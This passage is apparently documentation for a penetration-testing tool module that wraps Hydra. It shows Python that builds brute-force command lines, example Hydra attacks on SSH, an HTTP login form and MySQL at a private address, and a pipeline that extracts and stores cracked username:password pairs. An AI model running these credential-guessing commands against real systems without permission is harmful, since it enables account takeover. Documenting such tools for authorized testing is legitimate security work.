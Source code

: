 ```
│  • Parse Hydra output line-by-line              │
│  • Extract username:password pairs              │
│  • Highlight successful logins                  │
└─────────────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────┐
│         Database & Display                      │
│  • Save to credentials table                    │
│  • Display in Rich table                        │
│  • Optional export to file                      │
└─────────────────────────────────────────────────┘
```

## Implementation Details

### 1. Hydra Command Construction

The module builds Hydra commands dynamically based on user input:

```python
cmd = ["hydra"]

# Username options
if username:
    cmd.extend(["-l", username])  # Single username
elif username_list:
    cmd.extend(["-L", username_list])  # Username list

# Password options
if password:
    cmd.extend(["-p", password])  # Single password
elif password_list:
    cmd.extend(["-P", password_list])  # Password list

# Threading and options
cmd.extend(["-t", str(threads)])  # Parallel connections
cmd.append("-V")  # Verbose output
cmd.append("-f")  # Stop on first success

# Target and service
cmd.extend([target, service])
```

**Example commands generated:**
```bash
# SSH attack
hydra -L users.txt -P passwords.txt -t 4 -V -f 192.168.1.100 ssh

# HTTP POST attack
hydra -l admin -P passwords.txt -t 4 -V -f 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"

# MySQL attack
hydra -l root -P passwords.txt -t 4 -V -s 3306 -f 192.168.1.100 mysql
```
